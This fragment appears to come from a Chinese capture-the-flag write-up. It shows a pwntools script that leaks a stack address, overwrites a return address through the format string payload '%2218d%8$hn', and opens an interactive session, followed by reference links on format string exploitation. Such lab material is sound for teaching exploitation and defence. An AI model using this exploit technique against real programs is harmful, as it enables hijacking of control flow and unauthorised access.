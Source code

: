 ```python
ret_addr=int(p.recvline().strip(),16) - 0x38
print ("ret_addr: ",hex(ret_addr))

p.recvuntil(">")
p.sendline("2")

p.recvuntil("please input new username(max lenth:20): ")
p.sendline(p64(ret_addr))
p.recvuntil("please input new password(max lenth:20): ")
p.sendline("%2218d%8$hn")

p.recvuntil(">")
p.sendline("1")

p.interactive()
```

## 参考
[格式化字符串漏洞利用](https://wiki.x10sec.org/pwn/fmtstr/fmtstr_exploit/#_15)

[格式化字符串漏洞例子](https://wiki.x10sec.org/pwn/fmtstr/fmtstr_example/)

[好好说话之格式化字符串漏洞利用](https://blog.csdn.net/qq_41202237/article/details/107662273)



